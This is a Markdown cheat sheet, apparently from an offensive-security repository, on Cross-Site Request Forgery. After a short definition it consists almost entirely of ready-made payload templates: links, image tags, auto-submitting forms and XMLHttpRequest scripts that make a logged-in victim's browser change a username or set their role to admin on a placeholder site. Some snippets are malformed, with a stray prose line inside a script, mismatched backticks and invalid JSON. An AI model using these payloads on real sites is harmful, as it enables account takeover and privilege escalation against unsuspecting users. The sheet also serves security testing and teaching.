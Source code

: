# CSRF(Cross Site Request Forgery)
>Cross-Site Request Forgery (CSRF) is a type of attack that occurs when a malicious web site, email, blog, instant message, or program causes a user’s web browser to perform an unwanted action on a trusted site when the user is authenticated.

![CSRF Method](https://raw.githubusercontent.com/k2haxor/HACK-THEM-ALL/master/CSRF/CSRF-CheatSheet.png)

## Exploit
When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.

### HTML GET
**User Interaction Required**
```
<a href="http://www.xyz.com/api/setusername?username=k2">Click Me</a>
```
**User Interaction Not Required**
```
<img src="http://www.xyz.com/api/setusername?username=k2">
```

### HTML POST
**User Interaction Required**
```
<form action="http://www.xyz.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="k2" />
 <input type="submit" value="Submit Request" />
</form>
```
**User Interaction Not Required**
```
<form id="autosubmit" action="http://www.xyz.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="k2" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```
### JSON GET
```
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.xyz.com/api/currentuser");
xhr.send();
</script>
```
### JSON POST
```
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.xyz.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
You will probably want to also try one or both of these
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```
**OR**
`<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.xyz.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>``

```
